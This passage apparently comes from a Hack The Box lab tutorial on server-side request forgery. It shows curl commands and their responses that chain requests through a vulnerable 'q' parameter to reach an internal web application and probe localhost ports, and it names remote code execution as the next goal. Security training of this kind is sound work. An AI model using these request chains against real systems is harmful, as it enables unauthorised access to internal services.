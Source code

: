 ```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```

Up to this point, we have learned how to reach internal applications and use different schemas to load local files through SSRF. Armed with this knowledge, let us try attacking the `internal.app.local` web application, again through SSRF. Our ultimate goal is to achieve remote code execution on an internal host.

First, we issue a simple cURL request to the internal application we discovered previously. Remember the information we uncovered that both applications load resources in the same way (via the `q` parameter).

**cURL - Interacting with the Target**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 83
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 13:51:15 GMT

<html>
<body>
<h1>Internal Web Application</h1>
<a>Hello World!</a>
</body>
</html>
```

Now, let us discover any web applications listening in localhost. Let us try to issue a request to a random port to identify how responses from closed ports look.

**cURL - Interacting with the Target**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```
